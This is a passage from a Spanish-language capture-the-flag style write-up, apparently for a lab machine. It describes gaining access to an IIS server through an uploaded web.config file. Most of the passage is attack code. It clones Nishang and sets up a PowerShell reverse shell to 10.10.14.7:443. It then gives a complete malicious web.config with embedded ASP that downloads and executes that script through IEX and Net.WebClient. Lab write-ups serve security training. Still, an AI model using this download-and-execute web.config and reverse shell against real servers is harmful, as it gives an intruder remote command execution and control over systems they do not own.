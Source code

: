 Nos ponemos en escucha de trazas ICMP 
```bash
 tcpdump -i tun0 icmp -n 
```
 y enviamos el fichero nuevamente y vemos que recibimos la traza ICMP.
## Vuln exploit & Gaining Access {-}

### Ganando accesso con un web.config {-}

Aqui trabajaremos con Nishang porque nos queremos entablar una PowerShell.

1. Descargamos Nishang y modificamos el fichero de reverse shell por tcp

    ```bash
    git clone https://github.com/samratashok/nishang
    cd nishang/Shells
    cp Invoke-PowerShellTcp.ps1 ../../PS.ps1
    cd ../..
    nano PS.ps1
    ```

    Modificamos el fichero PS.ps1 para añadir 
```bash
 Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 443 
```
 al final del fichero

1. Modificamos el web.config para que descarge el fichero PS.ps1 al momento que lo lanzemos.

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
    <system.webServer>
        <handlers accessPolicy="Read, Script, Write">
            <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
        </handlers>
        <security>
            <requestFiltering>
                <fileExtensions>
                <remove fileExtension=".config" />
                </fileExtensions>
                <hiddenSegments>
                <remove segment="web.config" />
                </hiddenSegments>
            </requestFiltering>
        </security>
    </system.webServer>
    </configuration>
    <!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
    <%
    Set co = CreateObject("WScript.Shell")
    Set cte = co.Exec("cmd /c powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PS.ps1')")
    output = cte.StdOut.Readall()
    Response.write(output)
    %>
    -->
    ```
